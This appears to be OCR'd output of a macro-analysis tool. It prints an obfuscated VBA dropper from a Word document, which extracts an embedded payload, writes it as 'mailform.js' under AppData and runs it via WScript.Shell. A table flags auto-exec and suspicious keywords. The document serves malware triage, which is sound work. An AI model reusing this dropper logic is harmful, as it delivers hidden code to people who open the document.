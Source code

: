 ```vbs
Dim SwMbxtWpP As String
SwMbxtWpP = StrConv(CbkQJVeAG, vbUnicode)
Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
Dim vTxAnSEFH
    Set vTxAnSEFH = CreateObject("vbscript.regexp")
    vTxAnSEFH.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
    Set I4j833DS5SFd34L3gwYQD = vTxAnSEFH.Execute(SwMbxtWpP)
Dim Y5t4Ul7o385qK4YDhr
If I4j833DS5SFd34L3gwYQD.Count = 0 Then
GoTo MnOWqnnpKXfRO
End If
For Each N34rtRBIU3yJO2cmMVu In I4j833DS5SFd34L3gwYQD
Y5t4Ul7o385qK4YDhr = N34rtRBIU3yJO2cmMVu.FirstIndex
Exit For
Next
Dim Wk4o3X7x1134j() As Byte
Dim KDXl18qY4rcT As Long
KDXl18qY4rcT = 13082
ReDim Wk4o3X7x1134j(KDXl18qY4rcT)
Get #gIvqmZwiW, Y5t4Ul7o385qK4YDhr + 81, Wk4o3X7x1134j
If Not JFqcfEGnc(Wk4o3X7x1134j(), KDXl18qY4rcT + 1) Then
GoTo MnOWqnnpKXfRO
End If
kWXlyKwVj = Environ("appdata") & "\Microsoft\Windows"
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
If Not aMUsvgOin.FolderExists(kWXlyKwVj) Then
kWXlyKwVj = Environ("appdata")
End If
Set aMUsvgOin = Nothing
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
IAiiymixt = kWXlyKwVj & "\" & "mailform.js"
Open (IAiiymixt) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + IAiiymixt + """" + " vF8rdgMHKBrvCoCp0ulm"
ActiveDocument.Save
Exit Sub
MnOWqnnpKXfRO:
Close #K764B5Ph46Vh
ActiveDocument.Save
End If
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |AutoClose           |Runs when the Word document is closed        |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Put                 |May write to a file (if combined with Open)  |
|Suspicious|Binary              |May read or write a binary file (if combined |
|          |                    |with Open)                                   |
|Suspicious|Kill                |May delete a file                            |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|WScript.Shell       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Run                 |May run an executable file or a system       |
```